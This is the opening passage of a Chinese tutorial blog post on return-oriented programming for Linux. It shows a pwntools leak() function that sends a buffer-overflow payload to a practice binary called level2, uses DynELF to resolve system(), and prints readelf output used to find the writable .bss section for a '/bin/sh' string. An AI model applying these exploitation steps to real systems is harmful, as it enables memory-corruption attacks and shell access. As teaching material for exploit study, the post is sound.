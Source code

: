 ```yaml
---
title: 一步一步学ROP之linux_x64篇
date: 2020-02-16 22:09:29
tags:
    - Pwn
author:     gumeng
categories:   
    - Pwn
---
```



# 一、序
**ROP的全称为Return-oriented programming（返回导向编程），这是一种高级的内存攻击技术可以用来绕过现代操作系统的各种通用防御（比如内存不可执行和代码签名等）。上次我们主要讨论了linux_x86的ROP攻击：《一步一步学ROP之linux_x86篇》，在这次的教程中我们会带来上一篇的补充以及linux_x64方面的ROP利用方法，欢迎大家继续学习。

另外文中涉及代码可在我的github下载：https://github.com/zhengmin19...

# 二、Memory Leak & DynELF - 在不获取目标libc.so的情况下进行ROP攻击
注意，这一节是上一篇文章的补充，还是讲的x86的ROP。上次讲到了如何通过ROP绕过x86下DEP和ASLR防护。但是我们要事先得到目标机器上的libc.so或者具体的linux版本号才能计算出相应的offset。那么如果我们在获取不到目标机器上的libc.so情况下，应该如何做呢？这时候就需要通过memory leak(内存泄露)来搜索内存找到system()的地址。

这里我们采用pwntools提供的DynELF模块来进行内存搜索。首先我们需要实现一个leak(address)函数，通过这个函数可以获取到某个地址上最少1 byte的数据。拿我们上一篇中的level2程序举例。leak函数应该是这样实现的：


```python
def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
return data
```

随后将这个函数作为参数再调用d = DynELF(leak, elf=ELF('./level2'))就可以对DynELF模块进行初始化了。然后可以通过调用system_addr = d.lookup('system', 'libc')来得到libc.so中system()在内存中的地址。

要注意的是，通过DynELF模块只能获取到system()在内存中的地址，但无法获取字符串“/bin/sh”在内存中的地址。所以我们在payload中需要调用read()将“/bin/sh”这字符串写入到程序的.bss段中。.bss段是用来保存全局变量的值的，地址固定，并且可以读可写。通过readelf -S level2这个命令就可以获取到bss段的地址了。

```

$ readelf -S level2
There are 30 section headers, starting at offset 0x1148:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
……
  [23] .got.plt          PROGBITS        08049ff4 000ff4 000024 04  WA  0   0  4
  [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4
  [25] .bss              NOBITS          0804a020 001020 000008 00  WA  0   0  4
  [26] .comment          PROGBITS        00000000 001020 00002a 01  MS  0   0  1
……

```
